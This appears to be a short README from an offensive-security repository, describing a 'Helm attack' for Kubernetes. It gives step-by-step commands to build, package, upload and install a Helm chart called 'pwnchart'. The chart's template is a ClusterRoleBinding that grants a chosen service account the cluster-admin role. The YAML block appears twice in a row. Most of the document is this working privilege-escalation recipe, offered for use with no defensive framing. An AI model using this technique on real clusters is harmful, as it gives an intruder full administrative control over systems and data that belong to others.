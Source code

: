 # Helm attack

You can apply any kubernetes `.yaml` files via Helm.

## Create helm chart to give you `cluster-admin` role

1. `helm create pwnchart`

2. Navigate to `./pwnchart/templates/`

3. Create a `.yaml` like a regualar kubernetes yaml, e.g clusterrolebinding.

```yaml
apiVersion: rbac.authorization.k8s.io/v1beta1
kind: ClusterRoleBinding
metadata:
  name: kekpwned
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    namespace: {{ .Values.namespace }}
    name: {{ .Values.name }}
apiVersion: rbac.authorization.k8s.io/v1beta1
kind: ClusterRoleBinding
metadata:
  name: kekpwned
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    namespace: {{ .Values.namespace }}
    name: {{ .Values.name }}
```

4. `helm package pwnchart`

5. Upload `pwnchart-<version>.tgz` to pod and run `helm install pwnchart-<version>.tgz`

> A demo chart is provided in [pwnchart](./pwnchart) folder
>
> Run `helm package pwnchart` to create a `.tgz` archive
